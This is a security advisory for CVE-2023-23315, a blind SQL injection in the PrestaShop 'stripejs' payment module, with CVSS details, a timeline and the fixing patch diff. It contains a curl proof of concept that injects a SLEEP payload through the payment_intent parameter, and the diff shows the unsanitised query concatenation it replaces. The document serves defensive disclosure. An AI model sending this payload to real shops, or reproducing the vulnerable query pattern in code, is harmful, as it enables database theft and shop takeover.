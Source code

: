 ```yaml
---
layout: post
title: "[CVE-2023-23315] Improper neutralization of an SQL parameter in stripejs module for PrestaShop"
categories: modules
author:
- Creabilis
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,stripejs"
severity: "critical (9.8)"
---
```


The PrestaShop e-commerce platform module "Stripe Payment Pro (SCA-ready)" aka stripejs (*) contains a Blind SQL injection vulnerability up to version 4.5.5. Release 4.5.5 fixed the vulnerability.

## Summary

* **CVE ID**: [CVE-2023-23315](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23315)
* **Published at**: 2023-03-01
* **Advisory source**: Friends-of-presta.org
* **Vendor**: PrestaShop
* **Product**: stripejs (*)
* **Impacted release**: < 4.5.5 (4.5.5 fixed the vulnerability)
* **Product author**: NTS
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

(*) Do not confuse with stripe_official.

## Description

The method `stripejsValidationModuleFrontController::initContent()` has sensitive SQL calls that can be executed with a trivial http call and exploited to forge a SQL injection.

Please note, this addons had already been exploited by malicious network to hijack several shops.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin's ajax scripts of modules protected by token on the ecosystem

## Proof of concept

```bash
curl -v -X POST -d 'fc=module&module=stripejs&controller=validation&source_type=alipay&payment_intent=test%22%3BSELECT%20SLEEP%2825%29%3B%23' 'https://domain.tld/'
```

## Patch of release 4.5.2 to 4.5.5

```diff
--- 4.5.2/stripejs/controllers/front/validation.php
+++ 4.5.5/stripejs/controllers/front/validation.php
@@ -46,24 +46,28 @@ class stripejsValidationModuleFrontContr
         $history_page = $this->context->link->getPageLink('history', true);
         $conveyor = array();
 
+        if (!$this->context->cookie->logged) {
+            return die('<h2>' . $this->module->l('Your transaction will be validated soon.') . '</h2>');
+        }
+
         if (Tools::getIsset('stripe_checkout') && Tools::getValue('stripe_checkout') == 'failed') {
             Tools::redirect($order_page);
-        } elseif (Tools::getIsset('payment_intent') && Tools::getIsset('redirect_status') && Tools::getValue('redirect_status') == failed) {
+        } elseif (Tools::getIsset('payment_intent') && Tools::getIsset('redirect_status') && Tools::getValue('redirect_status') == 'failed') {
 
             $intent = \Stripe\PaymentIntent::retrieve(Tools::getValue('payment_intent'));
             $pi_error = (!empty($intent->last_payment_error) ? $intent->last_payment_error->message : (isset($intent->error) ? $intent->error->message : ''));
             Tools::redirect($this->context->link->getPageLink('order', true, null, array('stripe_error' => $pi_error)));
         } else {
-            //sleep(2);
+
             if (Tools::getIsset('payment_intent')) {
-                $conveyor['cart_id'] = Db::getInstance()->getValue('SELECT id_cart FROM ' . _DB_PREFIX_ . 'stripejs_transaction WHERE id_payment_intent = "' . Tools::getValue('payment_intent') . '" AND type = "payment"');
+                $conveyor['cart_id'] = Db::getInstance()->getValue('SELECT id_cart FROM ' . _DB_PREFIX_ . 'stripejs_transaction WHERE id_payment_intent = "' . pSQL(Tools::getValue('payment_intent')) . '" AND type = "payment"');
                 $conveyor['token'] = Tools::getValue('payment_intent');
             } elseif (!empty($this->context->cart->id)) {
                 $conveyor['cart_id'] = $this->context->cart->id;
                 $conveyor['token'] = Db::getInstance()->getValue('SELECT id_payment_intent FROM ' . _DB_PREFIX_ . 'stripejs_transaction WHERE id_cart = ' . $conveyor['cart_id'] . ' AND type = "payment"');
             } elseif (Tools::getIsset('cid')) {
-                $conveyor['cart_id'] = Tools::getValue('cid');
-                $conveyor['token'] = Db::getInstance()->getValue('SELECT id_payment_intent FROM ' . _DB_PREFIX_ . 'stripejs_transaction WHERE id_cart = ' . Tools::getValue('cid') . ' AND type = "payment"');
+                $conveyor['cart_id'] = (int) Tools::getValue('cid');
+                $conveyor['token'] = Db::getInstance()->getValue('SELECT id_payment_intent FROM ' . _DB_PREFIX_ . 'stripejs_transaction WHERE id_cart = ' . (int) Tools::getValue('cid') . ' AND type = "payment"');
             }
 
             $id_order = (int) Order::getOrderByCartId((int) $conveyor['cart_id']);
@@ -76,13 +80,13 @@ class stripejsValidationModuleFrontContr
 
                 $this->setTemplate('module:stripejs/views/templates/hook/payment_validation.tpl');
                 if (Tools::getValue('attempt') < 4) {
-                    $arr_content = array('content_only' => 1, 'attempt' => (int) Tools::getValue('attempt') + 1, 'cid' => $conveyor['cart_id']);
+                    $arr_content = array('content_only' => 1, 'attempt' => (int) Tools::getValue('attempt') + 1, 'cid' => (int) $conveyor['cart_id']);
                     $this->context->smarty->assign(array(
                         'reload' => 1,
                         'reloadURL' => $this->context->link->getModuleLink($this->module->name, 'validation', $arr_content, true),
                     ));
                 } else {
-                    $conveyor['source_type'] = $result_json->payment_method_details->type;
+                    $conveyor['source_type'] = NULL;
                     $this->module->processPayment($conveyor);
                 }
             }
```


## Other recommandations

* It’s recommended to upgrade to the latest version of the module **stripejs**.
* Upgrade PrestaShop beyong 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by ";").
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skilled because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Timeline

| Date | Action |
|--|--|
| July 2022 | Security issue report to the author |
| September 2022 | Author publish release with partial fix 4.5.3 |
| 2022-12-27 | Contact PrestaShop addons to ask a fix |
| 2023-01-05 | Author publish release with all fixed 4.5.5 |
| 2023-01-10 | Request a CVE ID |
| 2023-03-01 | Publish this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/en/payment-card-wallet/17856-stripe-payment-pro-sca-ready.html)
* [National Vulnerability Database](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23315)



